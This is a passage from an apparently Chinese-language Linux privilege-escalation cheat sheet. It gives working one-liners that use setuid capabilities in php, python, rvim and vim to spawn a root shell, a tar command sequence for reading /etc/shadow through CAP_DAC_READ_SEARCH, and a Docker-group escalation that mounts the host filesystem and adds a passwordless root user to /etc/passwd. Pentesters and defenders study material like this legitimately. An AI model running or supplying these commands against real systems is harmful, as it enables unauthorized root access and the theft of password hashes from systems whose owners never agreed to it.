 php

```
php -r "posix_setuid(0); system('/bin/sh');"
```

python

```
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

rvim

需要支持python3模块。

```
rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

vim

需要支持python3模块。`vim --version`查询，是否支持py3

```
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

### 通过CAP_DAC_READ_SEARCH

cap_dac_read_search可以绕过文件的读权限检查以及目录的读/执行权限的检查。

利用此特性我们可以读取系统中的敏感信息。

如果tar有此权限，我们可以通过此来查看敏感文件内容。

```
tar cvf shadow.tar /etc/shadow  //创建压缩文件tar -xvf shadow.tar  //解压缩cd etc  //进入解压缩的目录chmod +r shadow  //赋予读权限cat shadow | grep root  //查看shadow文件的内容
```

## 九. Docker

### 1. Docker用户组提权

如果我们拿到了一个Docker用户组的用户权限，那么我们可以很轻松地完成提权

首先我们执行如下命令

```
docker run -v /:/mnt --rm -it crf_web1 chroot /mnt sh
```

然后在其中的/etc/passwd中写入一个root权限用户（我这里直接无密码了）

![image-20220418223122812](/assets/img/image-20220418223122812.png)

然后退出来，直接尝试 su root2

![image-20220418223128771](/assets/img/image-20220418223128771.png)
